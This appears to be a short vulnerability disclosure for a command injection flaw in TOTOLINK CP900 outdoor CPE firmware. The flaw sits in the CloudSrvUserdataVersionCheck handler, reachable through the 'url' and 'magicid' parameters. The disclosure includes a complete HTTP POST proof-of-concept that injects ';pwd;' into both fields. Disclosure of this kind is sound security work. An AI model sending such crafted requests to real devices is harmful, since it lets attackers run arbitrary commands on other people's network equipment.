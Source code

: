 ## CP900 command injection

### Overview

* Vendor: TOTOLINK

* Product: CP900
* Version: TOTOLink outdoor CPE CP900_V6.3c.1144_B20190715

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20190823/72f2e599854470f5752826473d74b7e0.zip

### Vulnerability details

Totolink outdoor CPE CP900_V6.3c.1144_B20190715 were discovered to contain a command injection vulnerability in the `CloudSrvUserdataVersionCheck` function via the `url` or `magicid` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image-20250401112105814](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 130
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "CloudSrvUserdataVersionCheck",
    "url": "1;pwd;",
    "magicid": "2;pwd;"
}
```

